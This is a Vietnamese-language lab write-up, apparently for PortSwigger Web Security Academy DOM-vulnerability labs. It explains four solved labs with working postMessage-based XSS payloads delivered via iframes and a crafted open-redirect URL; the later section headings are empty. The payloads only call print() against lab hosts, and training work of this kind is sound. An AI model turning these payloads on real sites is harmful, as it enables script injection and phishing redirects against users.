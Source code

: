 # 1. DOM XSS using web messages
Nhận thấy trong source code có đoạn mã sau:

![image](https://user-images.githubusercontent.com/103978452/211499636-60830aeb-fd4d-4bcd-bae7-fbaf3f1a149a.png)
Đoạn code trên sẽ nhận web message và inject vào tag có id là 'ads'. Như vậy ta có thể cấu hình XSS sử dụng thẻ `<iframe>`

Vào exploit server, cấu hình đoạn code sau:

```
<iframe style="width: 500px; height: 500px;" src="https://0a1e00080340c863c0b7a49200dd0016.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>', '*')"></iframe>
```

Sau khi đoạn code trên được chạy, sẽ tạo 1 tag iframe. Tag iframe này sau đó sẽ gửi message đến target website, với nội dung `<img src=1 onerror=print()>`. Sau khi được inject vào thẻ có id=ads, lệnh print() sẽ được gọi.

Click "Deliver to victim", kết quả thành công.

# 2. DOM XSS using web messages and a JavaScript URL
Nhận thấy trong source code có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211507542-82ddefb4-5d22-42c8-abc7-f3769e961b4e.png)
Đoạn script trên sẽ bắt sự kiện message được gửi đến, kiểm tra xem trong data(url) nếu có chuỗi 'http:' hoặc 'https:' trong message content thì sẽ thiết lập `location.href=url`

Vào exploit, cấu hình đoạn code sau:
```
<iframe src="https://0a6100cd040bb11ec08677ae0042000b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print(%22https:%22)', '*')"></iframe>
```

Đoạn code trên tạo một iframe, gửi message `javascript:print(%22https:%22)` tới target website. Như vậy khi target website bắt event 'message', lệnh `print('https')` sẽ được gọi

Sau khi click "Deliver to victim", bài lab được giải.

# 3. DOM XSS using web messages and JSON.parse
Trong source code có đoạn script sau:

![image](https://user-images.githubusercontent.com/103978452/211520513-92a0e9b0-3957-4279-be03-e3ee389d4364.png)
Nhận thấy dữ liệu hợp lệ cho "message" event là một JSON object. Nếu ta truyền một object có `type=load-channel` thì thuộc tính `url` của object đó sẽ được gắn cho một thẻ `iframe` mới.

Vào exploit server và cấu hình đoạn HTML sau:

```
<iframe src="https://0a7a00e903689c12c25c61e7002a00c8.web-security-academy.net/" onload="this.contentWindow.postMessage('{&quot;type&quot;:&quot;load-channel&quot;, &quot;url&quot;:&quot;javascript:print()&quot;}', '*')"></iframe>
```
Đoạn code trên sẽ gửi một message với content `{"type": "load-channel", "url": "javascript:print()"}`. Như vậy, khi thẻ `<iframe src="javascript:print()">` được tạo, lệnh print() sẽ được gọi.

Sau khi click "Deliver to victim", kết quả thành công.

# 4. DOM-based open redirection
Trong source code có đoạn thẻ `<a>` với sự kiện onclick như bên dưới:

```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
Đoạn code trên sẽ redirect user tới giá trị của tham số `url`. Như vậy, ta có thể khiến user redirect đến exploit server bằng cách thiết lập URL sau:

```
https://0ad800f0032df10ac4cb4d1300dd004e.web-security-academy.net/post?postId=5&url=https://exploit-0a470076034cf181c4014c9201e80056.exploit-server.net/exploit
```

Nếu user click "Black to blog" thì website sẽ tự động chuyển hướng đến exploit server.

# 5. DOM-based cookie manipulation

# 6. Exploiting DOM clobbering to enable XSS

# 7. Clobbering DOM attributes to bypass HTML filters

# 8. 
